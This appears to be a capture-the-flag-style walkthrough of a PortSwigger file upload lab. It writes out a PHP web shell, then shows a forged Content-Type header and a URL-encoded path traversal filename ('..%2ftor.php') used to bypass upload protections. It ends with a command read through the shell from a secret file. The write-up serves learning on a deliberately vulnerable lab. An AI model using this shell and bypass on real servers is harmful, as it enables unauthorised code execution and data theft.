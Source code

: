 ## Welcome, my friend. Today we will start the [3. File Upload lab](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal) in ```portswigger```

# Explain this Scenario:

## Prevent the execution of files in directories accessible by users

### Preventing uploading dangerous files:
#### It is always best to prevent dangerous file types from being uploaded in the first place. However, if some files of these types leak to the server, the second step is to prevent the execution of any scripts that may be present.

### How to prevent scripts from executing:
#### Check ```MIME type```: The server is configured to run only scripts that match the ```MIME``` type it is configured to run. If the MIME type of the file does not match what is expected, the server may display an error message or present the file contents as plain text instead of playing it.

 Example:

```
GET /static/exploit.php?command=id HTTP/1.1
Host: normal-website.com
```

### Response:

```
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 39

<?php echo system($_GET['command']); ?>
```

### In this scenario, if the server displays the file contents as plain text, the script was not executed, which reduces the risk of a malicious web shell.


## How to do it:

#### ```Test server settings```: Try uploading a file to a directory that is not supposed to contain files uploaded by users. Check how the server handles files with unexpected extensions.
#### ```Response Check```: Monitor how the server handles different types of files and the server's response when trying to access these files.


-------------

# Let's play this lab:

![image](https://github.com/user-attachments/assets/d9738287-1a35-4bb6-8818-d5ed6adba224)


#### Let's log in to your own account using the following credentials: ```wiener:peter```

![image](https://github.com/user-attachments/assets/1b7229a1-3813-48f9-b6f0-0dcc0d603e78)


#### Let's create a php malicious payload in file ```tor.php```:

### within tor.php:

```
<?php
    echo system($_GET["tor"]);
?>
```

![image](https://github.com/user-attachments/assets/295203de-7776-489e-b02f-df7db4e826ee)

### Now, Let's upload this malicious payload to server.


![image](https://github.com/user-attachments/assets/cadd334c-4afb-45e0-9b65-99acf94e6f97)

#### WOW! The file has been uploaded successfully.

### From Task 1, we explore that our file is within this path ```/files/avatars/file_name?parameter=command``` like this:

```
/files/avatars/tor.php?tor=id
```

![image](https://github.com/user-attachments/assets/2ba96ebf-d955-4ac6-b9a9-659ca6a786c5)

#### Hmmm, no there any thing! I think due ```MIME type```
### ok Let's open the burp tool to explore what happen.

![image](https://github.com/user-attachments/assets/b72f936b-4319-48cd-9f2e-eb3599050cd3)

#### Well, Let's change this ```Content-Type: application/x-php``` to ```Content-Type: image/jpeg```:

#### we know that this path ```/files/avatars/any_file``` is protect form malicios files, So we save our file in other path, we will using  ```Path Traversal``` to help us bypassing this path.

### We change file name to ```../tor.php``` 


![image](https://github.com/user-attachments/assets/4f0bb4a1-11a7-44ea-8bdc-170ed1af6b5e)

### Hmm, there here filter to remove ```/``` , So we instead of ```%2f``` . this is url encoding. it becomes:

```
..%2ftor.php
```

![image](https://github.com/user-attachments/assets/516ee7fc-eb97-4489-9826-c8fc05ada633)


![image](https://github.com/user-attachments/assets/c0ac5ca2-b0c4-4dd5-93bd-259a931f0963)

### Well done! we change this path and become ```/files/tor.php?tor=id``` and not ```/files/avatars/tor.php?tor=id```:

![image](https://github.com/user-attachments/assets/29b76d1f-1065-4a33-862b-c33930efc249)



#### Ok this task requrie reach to /home/carlos/secret file.

```
/files/tor.php?tor=cat /home/carlos/secret
```

![image](https://github.com/user-attachments/assets/818b4872-10da-4ba5-98e8-5647811ef465)


#### alert: this secret is douple, copy single secret only.
### Let's Submit this secret using the button provided in the lab banner. 

![image](https://github.com/user-attachments/assets/321a05ba-4d07-450f-9233-f998e1641301)

## Then ...

![image](https://github.com/user-attachments/assets/a93cc937-f1e6-4d5f-839a-66e768d982fe)


### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/32addc8d-e9ac-4015-96e3-5007eae85ec6" >
</p>









